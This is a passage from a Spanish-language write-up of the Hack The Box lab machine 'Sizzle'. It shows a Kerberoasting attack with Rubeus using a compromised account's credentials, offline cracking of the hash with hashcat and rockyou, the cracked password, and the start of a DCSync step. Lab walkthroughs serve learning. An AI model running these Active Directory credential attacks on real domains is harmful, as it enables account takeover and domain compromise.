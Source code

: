 ### Kerberoasting - mrlky

Ahora realizaremos el ataque de kerberoasting con Rubeus sobre el usuario mrlky:

```bash
.\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972 /nowrap /user:mrlky
```

![kerb1](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/527a59b642bb1b88e565dabbf7c02b794f539e2d/_includes/CTFIMG/Sizzle/kerb1.png)

Ahora depositaremos el hash en un fichero para crackearlo offline:

```bash
hashcat -m 13100 hash rockyou.txt
```

![kerb2](https://raw.githubusercontent.com/H4RRIZN/H4RRIZN.github.io/527a59b642bb1b88e565dabbf7c02b794f539e2d/_includes/CTFIMG/Sizzle/kerb2.png)

Observamos el resultado de la contraseña del usuario el cual es **`Football#7`**. Ahora estamos a un paso de obtener acceso como administrador.

### DCSync

Sabemos que podemos realizar un DCSync sobre HTB.LOCAL asi que utilizare secretsdump para hacer esto de manera más eficiente:
